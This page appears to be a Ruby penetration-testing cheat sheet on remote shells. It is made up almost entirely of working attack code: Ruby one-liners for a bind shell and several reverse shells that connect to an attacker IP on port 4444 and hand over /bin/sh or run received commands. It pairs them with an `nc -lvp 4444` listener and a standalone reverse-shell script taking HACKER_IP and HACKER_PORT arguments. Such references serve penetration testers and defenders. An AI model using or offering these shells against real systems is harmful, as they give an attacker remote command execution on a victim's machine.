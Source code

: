 # Remote Shell

Remote shell means s forward or reverse connection to the target system command-line\(shell\).

**Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell

from terminal

```ruby
ruby -rsocket -e's=TCPSocket.new("127.0.0.1",4444);loop{gets.chomp!;(s.close;exit!) if $_=="exit";(s.puts$_);puts s.recv_nonblock(0xFFFF) rescue nil}'
```

since `192.168.0.15` is the victim IP

## Reverse shell

Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run

```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't want to rely on `/bin/sh`

```ruby
ruby -rsocket -e'exit if fork;c=TCPSocket.new("192.168.0.13",4444);loop{c.gets.chomp!;($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

if you don't want to rely on `cmd.exe`

```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

## Bind and Reverse shell

This is an awesome implementation for a standalone [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by \[Hood3dRob1n\]\[3\] on GitHub . The bind shell requires authentication while reverse is not.

\[3\]: [https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)

